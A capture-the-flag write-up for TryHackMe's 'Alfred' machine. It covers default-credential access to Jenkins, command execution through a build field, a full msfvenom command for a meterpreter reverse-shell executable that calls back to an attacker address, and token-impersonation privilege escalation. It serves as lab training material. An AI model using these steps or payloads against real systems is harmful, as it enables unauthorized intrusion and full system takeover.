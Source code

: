 ```yaml
---
layout: post
title: THM Alfred
---
```


This is a write-up for the machine [Alfred](https://tryhackme.com/room/alfred) from [tryhackme](https://tryhackme.com).

<!-- MarkdownTOC -->

- [Initial Access](#initial-access)
- [Switching Shells](#switching-shells)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Initial Access

We run the usual nmap scanner and find:

- Port 80 http.
- Port 8080 http.
- Port 3389 rdp.

If we connect to the server in port 80 we can see

![Wayne](../images/alfred/alf1.png)

Nothing seems too interesting and a `gobuster` scan doesn't find anything useful.

In port 8080 we have a `jenkins` server.

![jenikins](../images/alfred/alf2.png)

We try to log in with the credentials `admin:admin` and got access to the `jenkins` control panel. From here we can move to configure tab, under project options and we find a field to write commands. Using it with this payload we gain a shell on the system.

![build](../images/alfred/alf3.png)

![shell](../images/alfred/alf4.png)

From here we can grab the user flag.

## Switching Shells

Once we are on the system we are going to switch to a `meterpreter` shell to make the privilege escalation easier.

This is the process we follow, we create a reverse shell executable with `msfvenom`, with the command

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.23.211 LPORT=444 -f exe -o metshell.exe
```

Set the handler in metasploit. Use `exploit/multi/handler` and configure the options

![set handler](../images/alfred/alf5.png)

We transfer the shell executable created with `msfvenom` to the windows machine and execute it gaining a `meterpreter` shell.

## Privilege Escalation

The technique we are going to use to elevate privileges in the machine is called token impersonation.

First we check the privileges we have in this account using the command `whoami/priv`

![priv](../images/alfred/alf6.png)

The `SeDebugPrivileged` and `SeImpersonatePrivileges` are enabled. We use the `incognito` module to exploit the vulnerability. We use the command `use incognito` to load the module and we check the available tokens with `list_tokens -g`

![tokens](../images/alfred/alf7.png)

The `BUILTIN\Administrator` token is available, to impersonate it we run

![impersonate](../images/alfred/alf8.png)

We have a elevated privileges but, by the way `windows` handles the permissions, using the primary tokens of the process to determine what they can do or cannot do, we need to migrate to a process with the right permissions. The safest process to pick is the `services.exe`. We list the processes and migrate to the one mentioned.

![migrate](../images/alfred/alf9.png)

Now we have complete access and can read the root flag.